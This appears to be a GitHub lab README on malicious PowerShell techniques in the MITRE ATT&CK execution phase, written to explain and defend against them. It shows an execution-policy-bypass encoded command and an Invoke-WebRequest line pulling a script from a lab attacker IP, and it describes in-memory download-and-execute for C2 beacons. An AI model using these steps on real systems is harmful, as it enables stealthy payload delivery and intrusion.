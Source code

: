 # Scenario 

This attack falls into the execution phase of Mitre Att&ck and requires initial access to the victim machine via phishing, credential dumping or other methods. This scenario demonstrates the different techniques and tactics attackers use when using powershell maliciously and details the common misconfigurtions that allow these attacks to take place and best practices to secure your network
from malicious powershell use.

# Setup
# Attack Types
1. **Local Powershell script Execution**
2. **Base64 Encoded Command**
   Attackers use Base64-encoded PowerShell commands primarily to:
   - Hide what the code is doing
   - Avoid detection by AV/EDR.
   - Bypass restrictions or logging.
   - Execute commands more reliably in remote or automated contexts.
  Proof of concept: `powershell -ExecutionPolicy Bypass -EncodedCommand VwByAGkAdABlAC0ASABvAHMAdAAgACIAaABlAGwAbABvACwAIABXAG8AcgBsAGQAIQAiAAoA`
  From this point the commands will be base64 encoded due to the prolific use in attacks. All commands will be executed in the same manner

3. **Download payload to disk for later use**
   Attacker will download payloads and malware for further staging and save them to disk so they can be ran later.
   <img width="849" height="437" alt="image" src="https://github.com/user-attachments/assets/ae623c89-9e75-4b62-883a-629145674136" />

   Proof of concept: `$Text = 'Invoke-WebRequest -Uri "http://192.168.1.105:8080/script.ps1" -OutFile "script.ps1"'`
   
4. **Download and Execute in Memory**
   Attackers will download scripts using the Invoke_WebRequest expression which is passed to Invoke-Expression which will execute the
   script in memory never writing any files to disk. This allows attackers to run commands and deliver full malware capabilities
   including c2 beacons.
   <img width="851" height="717" alt="image" src="https://github.com/user-attachments/assets/54252204-a5ff-497c-a8e5-662fca9d29ad" />



  
